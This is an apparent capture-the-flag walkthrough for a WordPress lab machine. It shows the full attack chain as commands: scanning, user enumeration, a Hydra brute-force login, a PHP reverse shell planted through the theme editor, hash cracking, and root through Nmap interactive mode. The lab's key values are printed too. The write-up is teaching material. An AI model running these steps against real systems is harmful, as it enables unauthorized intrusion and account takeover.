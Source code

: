 ### What is key 1?

Start by accessing the target web server in your browser:

![alt text](image.png)

<span style="line-height:0.5;">&nbsp;</span>

Run an Nmap service scan to identify open ports and running services:
```BASH
sudo nmap -sV $ip
```
![alt text](image-1.png) 

<span style="line-height:0.5;">&nbsp;</span>

Use Gobuster to enumerate hidden directories:
```BASH
gobuster dir -u "http://$ip/" -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 64
```

![alt text](image-2.png)

<span style="line-height:0.5;">&nbsp;</span>

The scan reveals a /login endpoint. Visiting it confirms the site is running WordPress:

![alt text](image-3.png)

<span style="line-height:0.5;">&nbsp;</span>

Since it’s WordPress website, enumerate users with WPScan:
```BASH
wpscan --url http://$ip/ --enumerate u
```

<span style="line-height:0.5;">&nbsp;</span>

WPScan also reveals there is a `robots.txt` file. There is also the `fsocity.dic` file with a custom wordlist, likely generated from site content or JavaScript.

Navigate to `robots.txt`:  

![alt text](image-4.png)

<span style="line-height:0.5;">&nbsp;</span>

Accessing`key-1-of-3.txt` reveals key1:

![alt text](image-5.png)

<pre>073403c8a58a1f80d943455fb30724b9</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is key 2?
![alt text](image-6.png)
The site is running WordPress 4.3.1, a version known to contain several critical vulnerabilities:
- Unauthenticated XSS  
- Privilege escalation  
- XML-RPC abuse  
- RCE via vulnerable plugins/themes
 
<span style="line-height:0.5;">&nbsp;</span>

By manually enumerating we can see that user elliot exists.  

![alt text](image-7.png)

Clean the wordlist to remove duplicates:
```BASH
sort -u fsocity.dic -o fsocity-cleaned.dic
```

<span style="line-height:0.5;">&nbsp;</span>

Use Hydra to brute-force the login credentials:
```BASH
hydra -l elliot -P fsocity-cleaned.dic -t 30 -f 10.10.247.94 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Incorrect"
```

![alt text](image-8.png)

<pre>login:elliot  
password:ER28-0652</pre>

<span style="line-height:0.5;">&nbsp;</span>

In the Appearance > Editor section, locate content.php. Replace its contents with a PHP reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

<span style="line-height:0.5;">&nbsp;</span>

Start netcat listener:
```BASH
nc -lvnp 4444
```

Trigger the reverse shell by visiting:`http://$ip/wp-content/themes/twentyfifteen/content.php`. Once the reverse shell connects, stabilize it:
```BASH
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![alt text](image-10.png)

<span style="line-height:0.5;">&nbsp;</span>

Navigate to `home/robot` to find the second key file. However, it requires elevated privileges:

![alt text](image-11.png)

Check password.raw-md5 in the same directory:  

![alt text](image-12.png)

Crack the hash using [CrackStation](https://crackstation.net/).

![alt text](image-13.png)

<pre>abcdefghijklmnopqrstuvwxyz</pre>

<span style="line-height:0.5;">&nbsp;</span>

Switch user to robot:
```BASH
su robot
```

Now read the second key:  

![alt text](image-14.png)

Second key: 
<pre>822c73956184f694993bede3eb39f959</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is key 3?
Check for SUID binaries:
```BASH
find / -perm -4000 -type f 2>/dev/null
```

<span style="line-height:0.5;">&nbsp;</span>

Use [GTFObins](https://gtfobins.github.io/) to exploit Nmap’s interactive mode for privilege escalation:
- Run Nmap in Interactive Mode:
```BASH
/usr/local/bin/nmap --interactive
```

- At the nmap> prompt, run:
```BASH
!sh
```

Retrieve the final key:  

![alt text](image-15.png)

![alt text](image-16.png)

<pre>04787ddef27c3dee1ee161b21670b4e4</pre>
